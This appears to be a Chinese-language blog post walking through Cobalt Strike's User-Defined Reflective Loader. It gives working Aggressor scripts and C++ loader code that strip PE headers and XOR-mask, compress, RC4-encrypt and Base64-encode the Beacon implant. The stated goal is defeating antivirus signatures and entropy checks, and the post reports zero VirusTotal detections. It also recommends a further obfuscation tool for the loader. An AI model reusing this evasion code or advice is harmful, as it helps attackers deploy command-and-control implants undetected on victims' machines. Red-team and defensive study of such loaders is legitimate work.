# 前言

在阅读这篇文章之前, 我建议读者先掌握一些基础的逆向知识（PE结构、汇编等），其次是掌握反射Dll的加载原理，大家可以先看这两篇文章：[反射Dll原理](https://yaoyue123.github.io/2021/01/31/Windows-Reflective-dllinject/#5%EF%BC%89-%E5%AF%B9DLL%E8%BF%9B%E8%A1%8C%E9%87%8D%E5%AE%9A%E4%BD%8D)和[Shellcode原理](https://yaoyue123.github.io/2021/01/31/Windows-Reflective-dllinject/#5%EF%BC%89-%E5%AF%B9DLL%E8%BF%9B%E8%A1%8C%E9%87%8D%E5%AE%9A%E4%BD%8D)，看完后阅读本次博客的内容可能会比较轻松。

本次博客的主要内容是针对CobaltStrike两篇官方文档的学习分享：[UDRL简单开发](https://www.cobaltstrike.com/blog/revisiting-the-udrl-part-1-simplifying-development)和[UDRL混淆遮掩](https://www.cobaltstrike.com/blog/revisiting-the-udrl-part-2-obfuscation-masking)


# 内嵌式Loader

## 实现原理

CobaltStrike默认是采用传统的反射loader([stephenfewer](https://github.com/stephenfewer))，即“内嵌式“loader。Beacon的Dos头存放着调用ReflectiveLoader函数的调用地址，这样做的目的是，当Beacon被执行时，它会立即跳至ReflectiveLoader函数执行，函数执行完毕后返回DLL的入口函数地址




为了更好理解CobaltStrike传统的反射Loader加载原理，我们需先取消掉Profile的所有配置(或者直接不加载Profile)，随后将生成Beacon.bin文件放到Pe-bear中反汇编，通过查看其`DOS`头部分，可整理出其大致流程

- 使用`RIP`寻址来获取beacon的基址，然后将beacon的基址存储在RDI寄存器

- 调用导出的`ReflectiveLoader`函数(函数地址是`0X188D4`)
- 调用已加载Beacon DLL的入口函数

	


那么我们该如何确定这个`0X188D4`就是`ReflectiveLoader`函数的地址呢? 切换至导出表界面, 发现只有一个导出函数, 其`RVA`地址为`194D4`, 转换为`FOA`后即为`188D4`


这里简单讲解下`RVA`转`FOA`的方法：通过查看`.text`节的`RawAddress`和`VirtualAddress`, 它们俩之间的差值为`0xC00`, `RVA`减去这个差值后的值即为`FOA`（194D4-0xC00=0X188D4）




## Aggressor脚本实现

从下述Aggressor脚本可发现，通过使用`setup_reflective_loader`函数来将自定义Loader替换掉Beacon中的默认Loader




# 前置式Loader

## 实现原理

[Double Pulsar](https://blog.f-secure.com/doublepulsar-usermode-analysis-generic-reflective-dll-loader/)是替代传统反射loader的另外一个项目，与传统反射loader不同的是，它没有将ReflectiveLoader函数编译到DLL中，而是放在DLL的前面，因此这也被称为“前置式loader”，这种方式最大的优点是能够反射加载任意PE文件，以下是“内嵌式loader”和“前置式loader”的对比图

	


将生成的raw文件放入010 Editor中，可以发现前面部分为loader，后面部分为beacon


​	

## 源码分析

### 1.获取loader和beacon的地址

为了确定`ReflectiveLoader`的起始地址和结束地址，可使用关键字`code_seg`来指定哪些部分用于存储特定的功能, 然后通过字母值来对这些部分进行排序

例如下述代码所示，使用了`#pragma code_seg(".text$a")`，这样表示代码应该被放置在`.text`段的一个特定子段中，然后链接器会根据`$`后面的字符进行排序，也就是说，`.text$a`会在`.text$b`之前，这样可以确保函数或代码块在链接时按照预期的顺序出现

```
#pragma code_seg(".text$a")
ULONG_PTR WINAPI ReflectiveLoader(VOID) {
[…SNIP…]
}
#pragma code_seg(".text$b")
[…SNIP…]
```


​	

从上图可知，因为Loader是在Beacon前面，我们只需找到`.text$a`段就能定位到`ReflectiveLoader`函数的起始地址




获取到`ReflectiveLoader`函数地址后，那么接下来就是获取Beacon的起始地址。通过字母值排序代码段可知，`code_seg(".text$z")`是`loader`的末尾地址，这里使用`LdrEnd()`函数地址来表示`loader`末尾地址，那么，Beacon的起始地址 = Loader的末尾地址 + 1





### 2.获取系统函数地址

在CobaltStrike的UDRL模板中，使用`CompileTimeHash`函数替换了`StephenFewer ReflectiveLoader`所采用的静态哈希值，其使用`constexpr`关键字来定义函数，表示函数的返回值在编译时时已知的，这就意味着哈希值是在编译阶段生成的，而不是在程序运行时，而且可通过更改`HASH_KEY`的值可以帮助抵御简单的静态签名




通过使用`CompileTimeHash`函数可以计算出指定模块名和函数名的哈希值




然后在使用`GetProcAddressByHash`函数来获取指定函数的地址, 以此方便后续的API调用


### 3.字符串声明方式

在C\C++中，通常字符串是保存在PE文件的`.data`节或`.rdata`节。假如我们要获取某个PE文件的shellcode，那么需在`.text`节中获取，然而字符串是存储在`.data`节中，这样一来字符串是无法被提取成shellcode的

为了更加直观的展示上述所描述的观点，我们使用[Compiler Explorer](https://godbolt.org/)网站来查看代码的反汇编形式。

首先，我们使用了声明字符串的三种不同方式，网站中已经为我们使用不同颜色来标明对应的代码行了(黄、紫、红)

首先来看String1变量的反汇编(黄色部分)，它将逐个字符存储在堆栈中，而不是先创建一个在`.data`或`.rodata`节的全局或静态副本然后再复制过来

再来看下String2(紫色部分)变量，注意`lea rcx, OFFSET FLAT:$SG2658`，这条指令加载字符串"Hello"的地址到`rcx`寄存器，`$SG2657`是一个由编译器生成的标签，表示该字符串在`.rodata`节或类似的只读数据节中的位置，后面的String3(红色部分)变量亦是如此

总结来说，String1变量是可以被提取为shellcode的，因为它没有依赖`.data`节，而另外两个变量都依赖了`.data`节




但是使用String1这种声明方法来初始化字符串会很不方便，现在有另外一种可替代的方法，当使用`constexpr`关键字来初始化char数组时，生成的字符串和String1变量是几乎一样的，如下图所示




为了方便使用，我们将其封装成两个宏，分别用于创建ASCII字符串和宽字符串

```cpp
#define PIC_STRING(NAME, STRING) constexpr char NAME[]{ STRING }
#define PIC_WSTRING(NAME, STRING) constexpr wchar_t NAME[]{ STRING }

PIC_STRING(example, "[!] Hello World\n");
PRINT(example);
```


## Aggressor脚本实现

以下是前置式loader的aggressor脚本：




# UDRL混淆

当UDRL应用到Beacon时，如下所示的stage块中定义的PE修改会被忽略掉，这是因为这些选项与反射加载器的操作紧密关联。例如，当beacon的某些内容以特定方式被加密了，那么我们的加载器需要知道如何去解密这些内容。接下来将讲解如何利用Aggressor脚本来实现对Beacon的混淆

```
# The following settings are not supported for this UDRL example.
# This UDRL example is using hard coded decisions for some settings
# or completly ignores them.
set allocator    "VirtualAlloc";
set userwx       "true";
set stomppe      "false";
set obfuscate    "false";
set smartinject  "false";
set entry_point  "<ignored>";
set magic_mz_x86 "<ignored>";
set magic_mz_x64 "<ignored>";
set magic_pe     "<ignored>";
set module_x86   "<ignored>";
set module_x64   "<ignored>";
```


## 自定义PE头

在Profile配置中，Stage块的某些选项允许用户修改明显的PE文件特征，比如`magic_mz`，它允许用户自定义4个字节的MZ头，但是当UDRL应用后此功能将不再支持，不过我们可以使用Aggressor脚本去实现此功能，甚至比`magic_mz`功能更加强大

首先在UDRL中，我们先自定义`PE Header`结构，在此结构中，我们仅存放PE头结构和节表结构等有效信息。

```cpp
typedef struct _SECTION_INFORMATION {
	DWORD VirtualAddress;
	DWORD PointerToRawData;
	DWORD SizeOfRawData;
} SECTION_INFORMATION, *PSECTION_INFORMATION;

typedef struct _PE_HEADER_DATA {
	DWORD SizeOfImage;
	DWORD SizeOfHeaders;
	DWORD entryPoint;
	QWORD ImageBase;
	SECTION_INFORMATION Text;
	SECTION_INFORMATION Rdata;
	SECTION_INFORMATION Data;
	SECTION_INFORMATION Pdata;
	SECTION_INFORMATION Reloc;
	DWORD ExportDirectoryRVA;
	DWORD DataDirectoryRVA;
	DWORD RelocDirectoryRVA;
	DWORD RelocDirectorySize;
} PE_HEADER_DATA, *PPE_HEADER_DATA;
```


在aggressor脚本中，为了对接上述我们自定义的`PE Header`，我们可以使用`pedump`函数将原始Beacon的PE头信息映射至一个哈希变量`pe_header_map`中, 然后将其再打包成一个字节流并赋值给`pe_header_data`变量

```perl
%%pe_header_map = pedump($input_dll);

$pe_header_data = pack(
    "I-I-I-", 
    %pe_header_map["SizeOfImage.<value>"],
    %pe_header_map ["SizeOfHeaders.<value>"],
    %pe_header_map ["AddressOfEntryPoint.<value>"]
); 
```


为了替换Beacon的原始PE头，我们需先使用`substr`函数提取PE文件的SECTION部分，然后再将SECTION部分与新创建的`pe_header_data`进行合并

```perl
# 获取原始PE头的大小
$size_of_original_pe_header = %pe_header_map["SizeOfHeaders.<value>"];

# 通过截取原始PE头的大小来获取Section部分的内容
$input_dll_pe_sections = substr($input_dll, $size_of_original_pe_header);

# 将自行创建的PE头与原始Beacon的Section部分进行合并
$modified_beacon = $pe_header_data . $input_dll_pe_sections;
```


下图是原始Beacon和修改后Beacon的对比图，修改后的Beacon已经将大多数PE特征去除掉了

	

​	

但是这样做会引发另外一个问题，即SECTION部分的起始地址发生了变化。例如，原始Beacon中`.text`节的`PointerToRawData`值为`0x400`，但是当我们移除它的PE头后，`.text`节的`PointerToRawData`值需改为`0x0`，这样我们的`loader`才能识别到SECTION部分

解决上述问题的最好方法就是修改RAW Beacon的基址，如果将Beacon的基址偏移减去`0x400`（`SizeOfHeaders`），那么后续我们就可以继续使用原始的`PointerToRawData`值

```cpp
// 获取我们创建的PE头的地址
PPE_HEADER_DATA peHeaderData = (PPE_HEADER_DATA)bufferBaseAddress;

// 获取RAW Beacon的基址
char* rawDllBaseAddress = bufferBaseAddress + sizeof(PE_HEADER_DATA);

// 修改RAW Beacon的基址
rawDllBaseAddress -= peHeaderData->SizeOfHeaders;
```


除了修改`SECTION.PointerToRawData`(FOA)之外，还需修改`SECTION.VirtualAddress`(RVA)。

例如，PE头在内存状态时的大小通常为`0x1000`，因此我们需将Beacon在加载状态时的基址减去`0x1000`

```
loadedDllBaseAddress -= VIRTUAL_SIZE_OF_PE_HEADER;
```


## 字符串替换

在Aggressor脚本，若要替换Beacon中的某些字符串，通常会用到`strrep`函数，但是此函数有个缺点，它可能会更改Beacon某些部分的大小，从而导致PE文件执行时出现崩溃。例如下述代码所示，这样操作会导致原始字符串的大小出现变化

```
$original = "Hello, world!";
$modified = strrep($original, "world", "Aggressor");
# $modified 现在是 "Hello, Aggressor!"
```


为了解决这种情况，我们可自定义一个`strrep_pad`函数,在替换字符串之前先用`NULL`字节填补它(其实现原理与transform块中的`strrep`类似)

以下是`strrep_pad`函数的定义, 目的是替换一个字符串中的特定字节序列，并确保新的字节序列与原始字节序列具有相同的长度。如果新的字节序列较短，它会使用零字节（`\x00`）进行填充, 此函数有个前提是替换的字符串长度不能大于被替换的字符串长度

```perl
sub strrep_pad {
    local('$difference $input_dll $new_byte_sequence $new_byte_sequence_length $new_byte_sequence_padded $original_byte_sequence $original_byte_sequence_length $padding %pe_header_map');
    $input_dll = $1;
    $original_byte_sequence = $2;
    $new_byte_sequence = $3;

    $original_byte_sequence_length = strlen($original_byte_sequence);
    $new_byte_sequence_length = strlen($new_byte_sequence);

    if($new_byte_sequence_length > $original_byte_sequence_length) {
        warn("strrep: input string is too large. exiting .. ");
        return $null;
    } 

    $difference = $original_byte_sequence_length - $new_byte_sequence_length;

    if ($difference != 0) {
        $padding = "\x00" x $difference;
        $new_byte_sequence_padded = $new_byte_sequence . $padding;
    }
    
    return strrep($input_dll, $original_byte_sequence, $new_byte_sequence_padded);
}
```


你也可以使用Aggressor的内置函数[setup_transformation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm?__hstc=173638140.c4afe537898dbcde90f8aa411da93a42.1696081315727.1698738393746.1698825883334.21&__hssc=173638140.1.1698825883334&__hsfp=461134508&_gl=1*1lmoayt*_ga*MTczMDkwNTU2Ny4xNjk2MDgxMzA4*_ga_HNS2ZVG55R*MTY5ODgyNTg3OS4zOS4wLjE2OTg4MjU5MzguMS4wLjA.#setup_transformations)，来将Profile配置中transform块定义的规则应用到Payload上

```perl
# Apply the transformations to the beacon payload.
$temp_dll = setup_transformations($temp_dll, $arch);
```


## 混淆处理

### 1.异或遮掩

使用如下自定义函数`mask_section`可以对指定SECTION部分的内容进行异或遮掩。除此之外，Aggressor还提供了一个内置函数[pe_mask_section](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm?__hstc=173638140.c4afe537898dbcde90f8aa411da93a42.1696081315727.1698492741767.1698545566123.16&__hssc=173638140.1.1698545566123&__hsfp=461134508&_gl=1*1cy19b6*_ga*MTczMDkwNTU2Ny4xNjk2MDgxMzA4*_ga_HNS2ZVG55R*MTY5ODU0NTU2MS4zMC4wLjE2OTg1NDU1NzAuNTEuMC4w#pe_mask_section)函数用于遮掩指定SECTION部分

```perl
sub mask_section {
    local('$key_string $key_length $masked_section $input_dll $section_start_address $section_size $section_name @key_bytes @masked_bytes %pe_header_map');
    
    # 从函数参数中获取值
    $input_dll = $1;  # 输入的DLL文件
    %pe_header_map = $2;  # PE头信息的映射
    $key_string = $3;  # 用于掩码处理的密钥字符串
    $key_length = strlen($key_string);  # 密钥字符串的长度
    $section_name = $4;  # 需要被掩码处理的区段的名称

    # 将密钥字符串拆分成单个字符，并将每个字符转换为其ASCII值
    @key_bytes = map({return asc($1);}, split('', $key_string));

    # 从PE头信息的映射中获取区段的起始地址和大小
    $section_start_address = %pe_header_map[$section_name.".PointerToRawData.<value>"];
    $section_size = %pe_header_map[$section_name.".SizeOfRawData.<value>"];

    # 初始化一个空的掩码字节数组和一个计数变量
    @masked_bytes = @();
    $count = 0;
    
    # 遍历指定区段的每个字节
    for($i = $section_start_address; $i < $section_start_address + $section_size; $i++) {
        # 计算当前字节的索引与密钥长度的模值
        $modulus = $count % $key_length;
        # 使用异或（XOR）操作对原始字节和相应的密钥字节进行掩码处理
        push(@masked_bytes, chr(byteAt($input_dll, $i) ^ @key_bytes[$modulus]));
        # 递增计数变量
        $count++;
    }
    # 将掩码字节数组中的所有字节合并成一个字符串
    $masked_section = join('', @masked_bytes);
    # 将原始DLL文件中的指定区段替换为掩码处理后的区段，并返回处理后的DLL文件
    return replaceAt($input_dll, $masked_section, $section_start_address);
}
```


至于遮掩所用到的密钥，这里采用随机生成的可变长度密钥

```perl
sub generate_random_bytes {
    local('$i @bytes');
    @bytes = @();
    for ($i = 0; $i < $1; $i++) {
        push(@bytes, chr(rand(255)));
    }
    return join('', @bytes);
}
```


为了确保loader可以检索到这些密钥，我们需将这些密钥的长度值放在`PE_HEADER_DATA`结构中(自定义PE头)，然后在PE_HEADER_DATA后面创建一个缓冲区用于存放密钥

```cpp
typedef struct _PE_HEADER_DATA {
   […SNIP…]
  DWORD TextSectionXORKeyLength;
  DWORD RdataSectionXORKeyLength;
  DWORD DataSectionXORKeyLength;
} PE_HEADER_DATA, *PPE_HEADER_DATA
```


​	

在UDRL中，我们创建了一个`KEY_INFO`结构来存储KEY的长度和地址，然后将其集合到`XOR_KEYS`结构中，表示每个节对应的密钥信息

```cpp
typedef struct _KEY_INFO {
	size_t KeyLength;
	char* Key;
} KEY_INFO, *PKEY_INFO;

typedef struct _XOR_KEYS {
	KEY_INFO TextSection;
	KEY_INFO RdataSection;
	KEY_INFO DataSection;
} XOR_KEYS, *PXOR_KEYS;
```


下述代码为loader检索每个节密钥的过程：

```cpp
PPE_HEADER_DATA peHeaderData = (PPE_HEADER_DATA)rawDllBaseAddress; 
XOR_KEYS xorKeys;
xorKeys.TextSection.key = rawDllBaseAddress + sizeof(PE_HEADER_DATA);
xorKeys.TextSection.keyLength = peHeaderData->TextSectionXORKeyLength;
xorKeys.RdataSection.key = xorKeys.TextSection.key + peHeaderData->TextSectionXORKeyLength;
xorKeys.RdataSection.keyLength = peHeaderData->RdataSectionXORKeyLength;
xorKeys.DataSection.key = xorKeys.RdataSection.key + peHeaderData->RdataSectionXORKeyLength;
xorKeys.DataSection.keyLength = peHeaderData->DataSectionXORKeyLength;
```


### 2.压缩数据

CobaltStrike为我们在Sleep语言重写了LZNT1压缩算法，并集合在`lznt1.cna`的`lznt1_compress`函数中，我们可以在Aggressor脚本中调用此函数来对遮掩后的Beacon进行压缩

```
$compressed_buffer = lznt1_compress($pe_header_data . $input_dll_pe_sections, $status);
```


在UDRL中，我们使用`RtlDecompressBuffer`函数对数据进行解压缩，其函数原型如下所示

```cpp
NT_RTL_COMPRESS_API NTSTATUS RtlDecompressBuffer(
  [in]  USHORT CompressionFormat,         // 输入参数: 指定压缩数据的格式，例如 COMPRESSION_FORMAT_LZNT1。
  [out] PUCHAR UncompressedBuffer,        // 输出参数: 指向一个缓冲区，该缓冲区用于存储解压缩后的数据。
  [in]  ULONG  UncompressedBufferSize,    // 输入参数: 指定UncompressedBuffer缓冲区的大小，以字节为单位。
  [in]  PUCHAR CompressedBuffer,          // 输入参数: 指向包含要解压缩的压缩数据的缓冲区。
  [in]  ULONG  CompressedBufferSize,      // 输入参数: 指定CompressedBuffer缓冲区中压缩数据的大小，以字节为单位。
  [out] PULONG FinalUncompressedSize      // 输出参数: 指向一个变量，该变量在函数返回时包含解压缩数据的实际大小
);
```


由上述函数原型可知，函数的调用需要压缩数据和存放解压缩数据的大小作为参数，此处需注意的是，存放解压缩数据的空间最好大点，从而防止缓冲区溢出报错，因此aggressor脚本中，我们使用原始Beacon的大小来作为存放解压缩数据的大小

```perl
# 存放解压缩数据的大小
$raw_file_size = strlen($input_dll);

# 压缩数据的大小
$compressed_buffer = lznt1_compress($pe_header_data . $input_dll_pe_sections, $status);
$compressed_file_size = strlen($compressed_buffer);

# 自定义UDRL头
$udrl_header_data = pack(
    "I-I-I-",
    $compressed_file_size,  # 压缩数据大小
    $raw_file_size,  # 解压缩数据大小
    $loaded_image_size, # 加载beacon的大小
);
```


由于`PE_HEADER_DATA`结构已经被压缩了，我们需要在Aggressor脚本中创建一个`UDRL_HEADER_DATA`来存放压缩数据和解压缩数据的大小值

```perl
$udrl_header_data = pack(
    "I-I-I-",
    $compressed_file_size, 
    $raw_file_size,
    $loaded_image_size,
);
```


​	

以下是在UDRL中创建的`UDRL_HEADER_DATA`结构

```cpp
typedef struct _UDRL_HEADER_DATA {
    DWORD CompressedSize;  //the size of the compressed artefact
    DWORD RawFileSize;        //the size of the RAW DLL
    DWORD LoadedImageSize; // the size of the loaded image
} UDRL_HEADER_DATA, * PUDRL_HEADER_DATA;
```


### 3.RC4加密

Aggressor脚本在此处选择了简单的RC4加密算法，使用随机的生成的rc4密钥并放置于`UDRL_HEADER_DATA`的后面，在`UDRL_HEADER_DATA`结构里存放RC4密钥的长度

```perl
# rc4加密函数
sub rc4_encrypt {
    # referenced https://gist.github.com/CCob/9dd8de00c2c6ad069301a225589223fa by CCob (_EthicalChaos_)
    local('$cipher $encrypted_buffer $encryption_key $key $plaintext_buffer');
    $plaintext_buffer = $1;
    $encryption_key = $2;

    $cipher = [Cipher getInstance: "RC4"];
    $key = [new SecretKeySpec: $encryption_key, "RC4"];
    [$cipher init: [Cipher ENCRYPT_MODE], $key];
    $encrypted_buffer = [$cipher doFinal: $plaintext_buffer];
    
    return $encrypted_buffer;
}

$rc4_key_length = 11;
$rc4_key = generate_random_bytes($rc4_key_length);
[…SNIP…]

$encrypted_buffer = rc4_encrypt($compressed_buffer, $rc4_key);
$udrl_header_data = pack(
    “I-I-I-I-“,
    $compressed_file_size,
    $raw_file_size,
    $loaded_image_size,
    $rc4_key_length,
);
return $udrl_header_data . $rc4_key . $encrypted_buffer;
```


​	

当loader要检索RC4密钥时，可以在`bufferBaseAddress`的基础上加上`UDRL_HEADER_DATA`结构的大小

```
char* rc4EncryptionKey = bufferBaseAddress + sizeof(UDRL_HEADER_DATA);
```


### 4.BASE64编码

在前面的部分中，我们严重地混淆了Beacon，这也使得它的熵值增加，从而容易被检测程序判定为恶意文件，因此我们可以通过使用Base64编码来减少它的熵值(因为Base64只有64个字符字母, 能够减少随机性)

Aggressor提供了一个内置函数`base64_encode`来进行Base64编码，虽然编码后会增加内容的长度，但是经过测试，`混淆/压缩/rc4加密/base64编码`后的Beacon和原始Beacon的大小相差不大

```perl
# base64_encode shellcode
$b64_encoded_dll = base64_encode($encrypted_buffer);
$b64_file_size = strlen($b64_encoded_dll);
```


## UDRL处理混淆流程

在UDRL中分配两块内存区域，一块作为解密缓冲区(`Temporary`), 只拥有可读可写权限；另外一块作为加载缓冲区(`LoaderImageMemory`)，拥有可读可写可执行权限，用作后续Beacon的执行

以下是UDRL处理Beacon的完整流程图，可以总结为4个步骤：

- 1：首先对Beacon进行base64解码，然后将解码后的数据存放至`loaderImageMemory`
- 2~3：对`LoadedImageMemory`的数据进行rc4解密，随后再进行解压缩，数据处理完后放到`TemporaryMemory`
- 4：最后一步就是常见的反射加载流程，例如将Beacon的PE头和Section复制到新内存、解析导入、处理重定位等等


# UDRL检测	

CobaltStrike为我们提供了一个udrl.py脚本，用于检测我们自定义的反射loader是否能够正常加载Beacon，这样做的好处是不用启动Teamserver

udrl.py支持两种检测模式，分别是`prepend-udrl`和`stomp-udrl`，脚本的执行格式如下所示：

```
python.exe .\udrl.py <prepend-udrl/stomp-udrl> <Beacon文件> <反射loader.exe>
```


例如我要检测自定义的前置式loader能否正常使用，那么第一个参数需填写为`prepend-udrl`，如下图所示则表示loader能够正常运行，并返回了loader的大小以及加载Beacon的起始地址


若要检测内嵌式loader是否可正常运行，需将第一个参数改为`stomp-udrl`


# 思考和总结

## 1.对loader的处理

当我们加载UDRL混淆的Aggressor脚本后，将生成的Raw文件上传至VT上，没有出现任何报毒，当然，要实现RAW在VT上全零不靠UDRL也行，这只是其中的一个思路




但是如果你一直使用CobaltStrike提供的混淆反射loader，报毒也是迟早的事情，解决方法也很简单，这里推荐一个混淆二进制文件的项目：[Shoggoth](https://github.com/frkngksl/Shoggoth)，我们只需对反射loader的bin文件进行混淆处理，以下是Shoggoth处理loader前后的对比图




## 2.更多层的加密？

在CobaltStrike官方给出的UDRL混淆项目中，其实只用到了四层混淆(xor加密、压缩、rc4加密和base64编码)，我们或许可以在其基础上再增添几层加密，虽然意义不是很大^^
